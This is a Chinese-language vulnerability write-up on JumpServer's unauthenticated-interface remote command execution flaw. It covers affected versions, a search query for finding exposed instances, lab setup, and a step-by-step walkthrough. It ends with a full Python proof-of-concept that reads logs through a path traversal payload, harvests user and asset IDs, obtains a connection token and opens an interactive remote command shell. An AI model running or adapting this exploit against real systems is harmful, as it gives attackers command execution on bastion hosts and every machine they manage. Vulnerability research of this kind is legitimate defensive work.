# JumpServer 未授权接口 远程命令执行漏洞

## 漏洞描述

JumpServer 是全球首款完全开源的堡垒机, 使用GNU GPL v2.0 开源协议, 是符合4A 的专业运维审计系统。 JumpServer 使用Python / Django 进行开发。2021年1月15日，阿里云应急响应中心监控到开源堡垒机JumpServer发布更新，修复了一处远程命令执行漏洞。由于 JumpServer 某些接口未做授权限制，攻击者可构造恶意请求获取到日志文件获取敏感信息，或者执行相关API操作控制其中所有机器。

## 漏洞影响

```
JumpServer < v2.6.2
JumpServer < v2.5.4
JumpServer < v2.4.5
JumpServer = v1.5.9
```

## 网络测绘

```
app="FIT2CLOUD-JumpServer-堡垒机"
```

## 环境搭建

安装 JumpServer v2.6.1 版本

[下载链接](https://www.o2oxy.cn/wp-content/uploads/2021/01/quick_start.zip)

- 安装注意 配置网络，配置Mysql，配置Redis 选择 n

等待完成安装执行以下命令

```shell
cd /opt/jumpserver-installer-v2.6.1
./jmsctl.sh start
```


等待安装完毕访问 http://xxx.xxx.xxx.xxxx:8080

默认账号密码 amdin:admin

## 漏洞复现

进入后台添加配置

**资产管理 -->  系统用户**





**资产管理 --> 管理用户**





**用户管理 --> 用户列表**



**资产管理 --> 资产列表**





查看一下项目代码提交变动





```python
import time
import os
import threading
import json

from common.utils import get_logger

from .celery.utils import get_celery_task_log_path
from channels.generic.websocket import JsonWebsocketConsumer

logger = get_logger(__name__)


class CeleryLogWebsocket(JsonWebsocketConsumer):
    disconnected = False

    def connect(self):
        user = self.scope["user"]
        if user.is_authenticated and user.is_org_admin:
            self.accept()
        else:
            self.close()

    def receive(self, text_data=None, bytes_data=None, **kwargs):
        data = json.loads(text_data)
        task_id = data.get("task")
        if task_id:
            self.handle_task(task_id)

    def wait_util_log_path_exist(self, task_id):
        log_path = get_celery_task_log_path(task_id)
        while not self.disconnected:
            if not os.path.exists(log_path):
                self.send_json({'message': '.', 'task': task_id})
                time.sleep(0.5)
                continue
            self.send_json({'message': '\r\n'})
            try:
                logger.debug('Task log path: {}'.format(log_path))
                task_log_f = open(log_path, 'rb')
                return task_log_f
            except OSError:
                return None

    def read_log_file(self, task_id):
        task_log_f = self.wait_util_log_path_exist(task_id)
        if not task_log_f:
            logger.debug('Task log file is None: {}'.format(task_id))
            return

        task_end_mark = []
        while not self.disconnected:
            data = task_log_f.read(4096)
            if data:
                data = data.replace(b'\n', b'\r\n')
                self.send_json(
                    {'message': data.decode(errors='ignore'), 'task': task_id}
                )
                if data.find(b'succeeded in') != -1:
                    task_end_mark.append(1)
                if data.find(bytes(task_id, 'utf8')) != -1:
                    task_end_mark.append(1)
            elif len(task_end_mark) == 2:
                logger.debug('Task log end: {}'.format(task_id))
                break
            time.sleep(0.2)
        task_log_f.close()

    def handle_task(self, task_id):
        logger.info("Task id: {}".format(task_id))
        thread = threading.Thread(target=self.read_log_file, args=(task_id,))
        thread.start()

    def disconnect(self, close_code):
        self.disconnected = True
        self.close()
```


新版对用户进行了一个判断，可以使用 谷歌插件 WebSocket King 连接上这个websocket 进行日志读取





比如send这里获取的 Task id ,这里是可以获得一些敏感的信息的





查看一下连接Web终端的后端api代码





可以看到这里调用时必须需要 **user asset system_user** 这三个值，再获取一个20秒的 **token**


访问web终端后查看日志的调用





```plain
docker exec -it (jumpserve/core的docker) /bin/bash
cat gunicorn.log | grep /api/v1/perms/asset-permissions/user/validate/?
```





```plain
assset_id=ee7e7446-6df7-4f60-b551-40a241958451
system_user_id=d89bd097-b7e7-4616-9422-766c6e4fcdb8	
user_id=efede3f4-8659-4daa-8e95-9a841dbe82a8
```


可以看到在不同的时间访问这个接口的asset_id等都是一样的，所以只用在 **刚刚的未授权日志读取**里找到想要的这几个值就可以获得 token





发送请求获取20s的token





看一下 koko.js 这个前端文件





后端代码 https://github.com/jumpserver/koko/blob/e054394ffd13ac7c71a4ac980340749d9548f5e1/pkg/httpd/webserver.go





这里我们就可以通过 获得的token来模拟请求





成功连接模拟了这个 token 的请求,可以在Network看一下流量是怎么发送的





模拟连接发送和接发数据





这里可以看到我们只要模拟了这个发送，返回的数据和web终端是一样的，那我们就可以通过这样的方法来进行命令执行了


## 漏洞POC

- ✅POC 里包含两个方法，一个是获取日志文件，另一个是命令执行
- ✅日志提取已经过滤了部分API调用的数据，只需要找到那几个值就好了

- ✅命令执行需要从日志中获取敏感数据并写入脚本对应的变量中
- ✅接收数据如果卡住请调整 for i in range(7) 这个位置的 7


```python
import requests
import json
import sys
import time
import asyncio
import websockets
import re
from ws4py.client.threadedclient import WebSocketClient

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mPOC_Des: https://www.o2oxy.cn/                                    \033[0m')
    print('+  \033[34mVersion: JumpServer <= v2.6.1                                     \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                           \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                            \033[0m')
    print('+  \033[36mCmd         >>> whoami				                            \033[0m')
    print('+------------------------------------------')

class ws_long(WebSocketClient):

    def opened(self):
        req = '{"task":"peiqi/../../../../../logs/gunicorn"}'
        self.send(req)

    def closed(self, code, reason=None):
        print("Closed down:", code, reason)

    def received_message(self, resp):
        resp = json.loads(str(resp))
        # print(resp)
        data = resp['message']
        print(data)
        if "/api/v1/perms/asset-permissions/user/validate/?" in data:
            print(data)


async def send_msg(websocket, _text):
    if _text == "exit":
        print(f'you have enter "exit", goodbye')
        await websocket.close(reason="user exit")
        return False
    await websocket.send(_text)
    recv_text = await websocket.recv()
    print(re.findall(r'"data":"(.*?)"', recv_text))


async def main_logic(target_url):
    print("\033[32m[o] 正在连接目标: {}\033[0m".format(target_url))
    async with websockets.connect(target_url) as websocket:
        recv_text = await websocket.recv()
        resws = json.loads(recv_text)
        id = resws['id']
        print("\033[36m[o] 成功获取 ID: {}\033[0m".format(id))

        inittext = json.dumps({"id": id, "type": "TERMINAL_INIT", "data": "{\"cols\":164,\"rows\":17}"})
        await send_msg(websocket, inittext)
        for i in range(7):
            recv_text = await websocket.recv()
            print(re.findall(r'"data":"(.*?)"', recv_text))

        while True:
            cmd = str(input("\033[35mcmd  >>> \033[0m"))
            cmdtext = json.dumps({"id": id, "type": "TERMINAL_DATA", "data": cmd + "\r\n"})
            await send_msg(websocket, cmdtext)
            for i in range(1):
                recv_text = await websocket.recv()
                print(re.findall(r'"data":"(.*?)"', recv_text))


def POC_1(target_url):
    vuln_url = target_url + "/api/v1/users/connection-token/?user-only=1"
    response = requests.get(url=vuln_url, timeout=5)
    print(response.status_code)
    ws_open = str(input("\033[32m[o] 是否想要提取日志（Y/N） >>> \033[0m"))
    try:
        if ws_open == "Y" or ws_open == "y":
                ws = target_url.strip("http://")
                try:
                    ws = ws_long('ws://{}/ws/ops/tasks/log/'.format(ws))
                    ws.connect()
                    ws.run_forever()
                    ws.close()
                except KeyboardInterrupt:
                    ws.close()
        else:
            print("\033[31m[x] 目标漏洞已修复，无法获取敏感日志信息\033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 目标漏洞已修复，无法获取敏感日志信息,{}\033[0m".format(e))
        sys.exit(0)


def POC_2(target_url, user, asset, system_user):
    if target_url == "" or asset == "" or system_user == "":
        print("\033[31m[x] 请获取 assset 等参数配置\033[0m")
        sys.exit(0)
    data = {"user": user, "asset": asset, "system_user": system_user}
    vuln_url = target_url + "/api/v1/users/connection-token/?user-only=1"
    # vuln_url = target_url + "/api/v1/authentication/connection-token/?user-only=1"

    try:
        response = requests.post(vuln_url, json=data, timeout=5).json()
        print("\033[32m[o] 正在请求：{}\033[0m".format(vuln_url))
        token = response['token']
        print("\033[36m[o] 成功获取Token：{}\033[0m".format(token))
        ws_url = target_url.strip("http://")
        ws_url = "ws://" + ws_url + "/koko/ws/token/?target_id={}".format(token)
        asyncio.get_event_loop().run_until_complete(main_logic(ws_url))

    except Exception as e:
        print("\033[31m[x] 请检查 assset 等参数配置,{}\033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    user = "ed3460eb-3c70-4beb-b631-f8f91c39bdd1"
    asset = "37fce0b0-cc4f-4822-8c33-afdebc888fa7"
    system_user = "da09ddd7-fd3f-46c3-914d-752883a4d950"
